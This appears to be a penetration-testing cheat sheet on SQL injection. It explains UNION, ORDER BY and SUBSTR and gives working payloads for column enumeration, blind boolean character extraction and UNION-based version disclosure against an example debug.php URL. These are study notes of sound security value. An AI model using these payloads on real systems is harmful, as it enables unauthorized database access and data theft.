 ```sql
-- Combine the result-set of two or more SELECT statements
	-- Each SELECT statement **MUST** return the same number of columns
UNION

-- Display the rows that are common to all SELECT statements
INTERSECT

-- Return the first # of rows matching the query (1st number - how many rows to skip; 2nd - how many rows to return)
LIMIT 2
	-- Returns 1 row, skips the first 2

-- Sort the results based on the values in the number column
	-- Can  be used to find max # of columns by incrementing until an error is thrown (Easily automated w/ Burp's Repeater)
ORDER BY

-- Extract a substring from a string
SUBSTR(1,2,3)
	-- 1. Operated text (ex: db name)
	-- 2. Char to start with
	-- 3. Number of chars to extract
1' AND (ascii(substr((select database()),2,1))) < 115 --+
	'-- Compares ascii value of the 2nd character of the db's name to 115 ('s')
```

## Column Number Enum
```sql
-- In URL
http://192.168.xxx.10/debug.php?id=1 order by 1

-- In form field
' ORDER BY 1-- //
```
- Orders the results by a specific column.  If there is at least one column in the query, it's valid and the page will render w/o errors.  Otherwise, it'll fail if the selected column doesn't exist.
  
  
To determine which columns are displayed on a page and where:    
```sql
-- Assuming 3 columns total in the db
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, 3
```

  
\***IF** the results of the page don't display the numbers after SELECT ^, you may need to adjust above to:
```sql
id=0 UNION
```
to prevent the first returned result somewhere in the web site's code from being displayed.  
  
Whichever columns are displayed, we can target that column and use it to extract data from the db:  
\***Note** - Following cmds are platform specific  
Ex: Using column 3 for data extraction:  
```sql
UNION ALL SELECT 1, 2, @@version
```
	Shows version of MySQL software  
